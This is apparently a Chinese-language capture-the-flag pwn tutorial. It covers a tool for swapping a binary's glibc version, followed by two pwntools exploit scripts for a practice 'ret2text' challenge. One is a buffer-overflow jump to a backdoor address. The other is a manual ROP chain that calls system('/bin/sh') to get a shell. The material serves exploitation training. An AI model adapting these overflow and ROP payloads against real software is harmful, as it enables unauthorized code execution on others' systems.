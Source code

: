 将此项目下update_list文件第一行的python改为python3

```bash
python3 get_env.py
sudo ln -s <clibc的绝对路径> /usr/bin/clibc
```

使用方法：

```bash
#clibc 目标文件 目标版本
clibc pwn 2.21
```

```bash
#将glibc版本改为旧版本
clibc pwn 2.23
```

简单版本exp：

```python
from pwn import *
context(os='linux',arch='amd64',log_level='debug')
elf = ELF("./pwn") #使用ELF函数去解析目标文件，存储为elf对象
io = process("./pwn_new") #启动一个进程，命名为io
io.recvuntil(b"do you know ret2text?\n") #一直接收数据，直到接收到指定数据
back_door = 0x401235 #ida查找后门地址
payload = b's'*0x58 + p64(back_door) #填充正常空间+rbp + 恶意地址
io.sendline(payload) #发送payloa
io.interactive() #进行交互
```

:star2:高级手动构造rop的exp:

查询poprdi地址：

```
ROPgadget --binary ./pwn --only "pop|ret"
```

```python
from pwn import *
context(os='linux',arch='amd64',log_level='debug')
elf = ELF("./pwn") #使用ELF函数去解析目标文件，存储为elf对象
io = process("./pwn") #启动一个进程，命名为io

io.recvuntil(b"do you know ret2text?\n") #一直接收数据，直到接收到指定数据
gdb.attach(io)
back_door = 0x401235 #ida查找后门地址
ret = 0x40101a #ROPgadget --binary ./pwn --only"pop|ret"
# payload = b's'*0x58 + p64(ret) + p64(back_door) #填充正常空间+rbp + 恶意地址4
#ROPgadget --binary ./pwn --only "pop|ret"
pop_rdi_ret =0x4012c3
shell_adr = 0x40201A #ida查询
sys_adr = elf.symbols['system']

pause()
payload = b's'*0x58 + p64(pop_rdi_ret) + p64(shell_adr) + p64(sys_adr)
io.sendline(payload) #发生payloa
io.interactive() #进行交互
```
